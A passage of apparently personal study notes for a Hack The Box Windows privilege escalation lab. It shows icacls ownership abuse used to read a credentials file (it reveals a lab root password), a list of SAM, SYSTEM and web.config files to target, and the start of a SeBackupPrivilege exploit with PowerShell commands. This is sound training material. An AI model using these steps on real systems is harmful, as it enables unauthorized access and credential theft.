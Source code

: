     PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

    processed file: C:\Department Shares\Private\IT\cred.txt
    Successfully processed 1 files; Failed processing 0 files
    ```
    - Reading the file
    ```powershell
    PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

    NIX01 admin
    
    root:n1X_p0wer_us3er!
    ```

> [!TIP]
> Files of Interest:
> ```
> c:\inetpub\wwwwroot\web.config
> %WINDIR%\repair\sam
> %WINDIR%\repair\system
> %WINDIR%\repair\software, %WINDIR%\repair\security
> %WINDIR%\system32\config\SecEvent.Evt
> %WINDIR%\system32\config\default.sav
> %WINDIR%\system32\config\security.sav
> %WINDIR%\system32\config\software.sav
> %WINDIR%\system32\config\system.sav
> ```


> [!IMPORTANT]
> Take great care when performing a potentially destructive action like changing file ownership, as it could cause an application to stop working or disrupt user(s) of the target object. Changing the ownership of an important file, such as a live web.config file, is not something we would do without consent from our client first. Furthermore, changing ownership of a file buried down several subdirectories (while changing each subdirectory permission on the way down) may be difficult to revert and should be avoided.

## Windows Group Privileges
### Windows Built-in Groups
- [List](https://ss64.com/nt/syntax-security_groups.html) of all built-in Windows groups along with a detailed description of each.
#### Backup Operators
- Membership of this group grants its members the SeBackup and SeRestore privileges.
- The SeBackupPrivilege allows us to traverse any folder and list the folder contents. 
- This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL).
- We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the SeBackupPrivilege
```powershell
# Importing Libraries
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll

# Verifying SeBackupPrivilege is Enabled
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
```